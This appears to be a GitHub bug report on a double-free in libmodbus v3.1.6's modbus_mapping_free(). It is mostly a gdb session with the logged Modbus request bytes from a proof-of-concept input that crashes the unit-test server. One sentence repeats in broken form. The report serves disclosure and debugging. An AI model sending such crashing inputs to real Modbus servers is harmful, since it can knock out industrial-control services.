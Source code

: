 ## libmodbus version

libmodbus v3.1.6

## OS and/or distribution

Ubuntu 18

## Description

In modbus.c, the value of the mb_mapping->tab_registers pointer may have been accidentally modified after it was allocated by malloc() so that it no longer points to the address where it was first allocated, resulting in a double-free error when executing the free(mb_mapping->tab_registers) statement in modbus_mapping_free(), which can cause the server to terminate unexpectedly. registers) statement in modbus_mapping_free() generates a double-free error, which can cause the server to terminate unexpectedly. ASAN summarizes this as a buffer overflow vulnerability.

## Actual behavior if applicable

double free or corruption (out)

## Vulnerability Analysis in GDB

### 1. First, breakpoints at line 196 of unit-test-server.c and line 1867 of modbus.c.

~~~
break unit-test-server.c:196
break modbus.c:1867
~~~

### 2. Then, run the program using the POC

~~~
(gdb) run < ./poc
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7ffff7bff640 (LWP 3956)]
[New Thread 0x7ffff73fe640 (LWP 3957)]
[Thread 0x7ffff7bff640 (LWP 3956) exited]
The client connection from 0.0.0.0 is accepted
Waiting for an indication...
<00><00><00><00><00><0D><FF><03><01><62><00><01>
[00][00][00][00][00][05][FF][03][02][00][00]
Waiting for an indication...
<00><00><00><00><00><0D><FF><17><01><62><00><10><01><5D><00><01><02><AA><BD>
[00][00][00][00][00][23][FF][17][20][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00][00]
Waiting for an indication...

ERROR Connection reset by peer: read

<00><01><02>Quit the loop: Connection reset by peer

Thread 1 "unit-test-serve" hit Breakpoint 1, main (argc=<optimized out>, argv=<optimized out>) at unit-test-server.c:196
196	    modbus_mapping_free(mb_mapping);
~~~

### 3. Execute the code in a single step and check the value of the pointer at the second breakpoint.

~~~
(gdb) c
Continuing.

Thread 1 "unit-test-serve" hit Breakpoint 3, modbus_mapping_free (mb_mapping=mb_mapping@entry=0x555555578430) at modbus.c:1867
1867	    free(mb_mapping->tab_input_registers);
(gdb) info args 
mb_mapping = 0x555555578430
(gdb) info mb_mapping
Undefined info command: "mb_mapping".  Try "help info".
(gdb) p mb
No symbol "mb" in current context.
(gdb) p mb_mapping 
$1 = (modbus_mapping_t *) 0x555555578430
(gdb) p *mb_mapping 
$2 = {nb_bits = 37, start_bits = 304, nb_input_bits = 22, 
  start_input_bits = 452, nb_input_registers = 1, start_input_registers = 264, 
  nb_registers = 32, start_registers = 352, tab_bits = 0x555555578480 "", 
  tab_input_bits = 0x5555555784b0 "", tab_input_registers = 0x555555578520, 
  tab_registers = 0x5555555784d0}
(gdb) p *mb_mapping
$3 = {nb_bits = 37, start_bits = 304, nb_input_bits = 22, start_input_bits = 452, nb_input_registers = 1, 
  start_input_registers = 264, nb_registers = 32, start_registers = 352, tab_bits = 0x555555578480 "", 
  tab_input_bits = 0x5555555784b0 "", tab_input_registers = 0x555555578520, tab_registers = 0x5555555784d0}
(gdb) p mb_mapping->tab_registers
$4 = (uint16_t *) 0x5555555784d0
(gdb) p *mb_mapping->tab_registers
$5 = 0
(gdb) p *mb_mapping->tab_input_registers 
$6 = 10
(gdb) p mb_mapping->tab_input_registers 
$7 = (uint16_t *) 0x555555578520
(gdb) l
1862	{
1863	    if (mb_mapping == NULL) {
1864	        return;
1865	    }
1866	
1867	    free(mb_mapping->tab_input_registers);
1868	    free(mb_mapping->tab_registers);
1869	    free(mb_mapping->tab_input_bits);
1870	    free(mb_mapping->tab_bits);
1871	    free(mb_mapping);
~~~

### 4. continue to execute

~~~
(gdb) n

Thread 1 "unit-test-serve" hit Breakpoint 2, modbus_mapping_free (mb_mapping=mb_mapping@entry=0x555555578430) at modbus.c:1868
1868	    free(mb_mapping->tab_registers);
(gdb) p mb_mapping->tab_input_registers 
$8 = (uint16_t *) 0x555555578520
(gdb) p *mb_mapping->tab_input_registers 
$9 = 21880
(gdb) n
double free or corruption (out)

Thread 1 "unit-test-serve" received signal SIGABRT, Aborted.
__pthread_kill_implementation (no_tid=0, signo=6, threadid=140737353619264) at ./nptl/pthread_kill.c:44
44	./nptl/pthread_kill.c: No such file or directory.
(gdb) bt
#0  __pthread_kill_implementation (no_tid=0, signo=6, threadid=140737353619264) at ./nptl/pthread_kill.c:44
#1  __pthread_kill_internal (signo=6, threadid=140737353619264) at ./nptl/pthread_kill.c:78
#2  __GI___pthread_kill (threadid=140737353619264, signo=signo@entry=6) at ./nptl/pthread_kill.c:89
#3  0x00007ffff7c42476 in __GI_raise (sig=sig@entry=6) at ../sysdeps/posix/raise.c:26
#4  0x00007ffff7c287f3 in __GI_abort () at ./stdlib/abort.c:79
#5  0x00007ffff7c89676 in __libc_message (action=action@entry=do_abort, fmt=fmt@entry=0x7ffff7ddbb77 "%s\n")
    at ../sysdeps/posix/libc_fatal.c:155
#6  0x00007ffff7ca0cfc in malloc_printerr (str=str@entry=0x7ffff7dde790 "double free or corruption (out)")
    at ./malloc/malloc.c:5664
#7  0x00007ffff7ca2e70 in _int_free (av=0x7ffff7e1ac80 <main_arena>, p=0x5555555784c0, have_lock=<optimized out>)
    at ./malloc/malloc.c:4588
#8  0x00007ffff7ca5453 in __GI___libc_free (mem=<optimized out>) at ./malloc/malloc.c:3391
#9  0x0000555555569022 in modbus_mapping_free (mb_mapping=mb_mapping@entry=0x555555578430) at modbus.c:1868
#10 0x00005555555570bb in main (argc=<optimized out>, argv=<optimized out>) at unit-test-server.c:196
(gdb) 
~~~

As you can see from the gdb debugging flow, on the first execution of free(), no error is reported, when executing the second free(mb_mapping->tab_registers), you can see that the server terminates due to DOUBLE FREE OR CORRUPTION (OUT).